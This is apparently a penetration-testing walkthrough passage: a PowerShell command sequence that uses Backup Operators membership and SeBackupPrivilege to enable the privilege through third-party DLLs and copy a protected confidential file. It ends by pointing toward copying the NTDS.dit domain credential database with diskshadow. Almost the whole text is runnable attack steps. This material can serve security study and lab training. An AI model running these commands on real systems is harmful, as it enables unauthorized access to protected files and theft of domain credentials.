     ```ps
    whoami /groups
    # we are part of Backup Operators group

    # this grants us SeBackup and SeRestore privs
    whoami /priv

    # to exploit SeBackupPrivilege, we can use the DLLs from this repo
    # 'https://github.com/giuliano108/SeBackupPrivilege'

    # import the libraries
    Import-Module .\SeBackupPrivilegeUtils.dll

    Import-Module .\SeBackupPrivilegeCmdLets.dll

    whoami /priv
    # confirm if SeBackupPrivilege is enabled or not
    # we can also check it with this cmdlet
    Get-SeBackupPrivilege

    # if it is disabled, enable it with this cmdlet
    Set-SeBackupPrivilege
    
    whoami /priv
    # SeBackupPrivilege is enabled now

    # we can choose a protected file and copy it
    dir C:\Confidential

    Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

    # once copied, we can view the file
    cat .\Contract.txt

    # in an AD env, Backup Operators group can log into a DC
    # we can copy NTDS.dit, locked by default, using Windows diskshadow tool
    